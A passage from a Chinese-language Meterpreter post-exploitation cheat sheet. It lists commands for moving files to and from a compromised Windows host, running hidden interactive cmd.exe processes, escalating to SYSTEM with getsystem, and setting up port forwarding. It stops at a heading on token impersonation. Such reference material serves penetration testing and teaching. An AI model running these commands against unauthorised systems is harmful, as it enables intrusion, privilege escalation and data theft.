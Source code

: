 


### 文件上传
```
upload <file> <destination>
\\上传文件到Windows主机 注意：使用-r参数可以递归上传上传目录和文件
```
### 文件下载
```
download <file> <path to save>
 \\可以下载远程主机上的文件,
 
 如果我们需要递归下载整个目录包括子目录和文件，我们可以使用download -r命令
```
### 文件执行
```
在目标主机上执行exe文件
execute -f <path> [options]
```
### 获取权限
```
获取admin权限
getsystem
```
目标主机上执行exe文件
```
execute -H -i -f cmd.exe \\
  创建新进程cmd.exe，-H不可见，-i交互

  execute -f <path> [options]   \\在目标主机上执行exe文件
```
### 显示进程
```
ps
```
### 创建端口转发
```
portfwd add -l <端口号> -r <目标IP>
```
### 删除端口转发
```
portfwd delete -l <端口号> -p <端口号> -r <目标IP>   
```
  如果你想显示所有端口转发记录，你可以使用`portfwd list`命令，如果你想删除所有的记录，可以使用`portfwd flush`命令
<br>
<br>
### 文件搜索
```
search -f *.txt(文件名称)
```
### 获取用户ID
```
getuid
```
### 获取系统信息
```
sysinfo
```
### 模拟任意用户(token操作)
